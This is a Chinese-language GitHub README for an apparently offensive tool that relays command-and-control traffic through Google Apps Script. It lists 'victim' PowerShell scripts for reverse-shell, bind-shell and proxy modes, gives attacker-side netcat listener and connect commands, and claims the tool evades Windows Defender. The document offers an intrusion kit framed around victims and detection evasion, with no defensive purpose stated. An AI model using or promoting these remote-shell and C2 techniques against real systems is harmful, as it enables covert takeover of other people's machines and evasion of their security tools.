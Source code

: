 # Appscript_reverseProxy_Github_README
## 簡介
利用Google Appscript作為中繼，進行C&C的通訊通道
目前不會被Windows Defender偵測
### APPscript版本
#### Victim
- ./appscript_client.ps1

#### Attacker server
- 先用postman頂著用
### Reverse shell版本
#### Victim
- rev_shell_client.ps1啟動即可
- 自行更改Server IP,port
####  Attacker server
- 在Ubuntu執行
```
nc- l 11111
```
- port:11111

### Binding shell版本
#### Victim

- bindshell_client.ps1啟動即可
- - 自行更改IP,port
####  Attacker server
```
nc client_IP Port
```
### AppScriptProxy
#### victim

- appscript_client.ps1啟動即可
#### Attacker server
- 暫用postman發請求==
- ![](https://i.imgur.com/kmf2AUX.png)
